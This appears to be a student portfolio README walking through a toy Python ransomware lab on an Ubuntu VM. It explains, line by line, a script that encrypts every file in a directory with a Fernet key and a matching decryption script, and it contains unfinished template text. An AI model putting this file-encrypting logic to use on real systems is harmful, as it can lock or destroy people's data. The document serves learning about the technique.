 # Ransomware
Deploying ransomware using Python

## Objective


As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand one of the methods of carrying out a ransomware attacks.

### Skills Learned


- Advanced understanding of SIEM concepts and practical application.
- Python scripting
- Cryptography
- 


### Tools Used
[Bullet Points - Remove this afterwards]

- Python
  

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)


To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "ransomware.py" or file == "thekey.key" : (next line)continue(next line) files.append(file) // This is seperating our script file that is in the same directory forom the file list we created earlier in the script.

print(files) // Will display the "files" list on the CLI.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: 

1600

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)


Added decrypt.py to files appended

From the beginning of the script to print(files) is the same as the ransomware/encryption script

with open("thekey.key", "rb") as key: // opens key file in read binary mode and

secretkey = key.read() // Makes secret key equal the contents of the file variable assigned as "key" , the key is now in the script secret key is now the variable

The for loop is going to remain similar with a few changes 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)


no dropper

*Ref 1: Network Diagram*
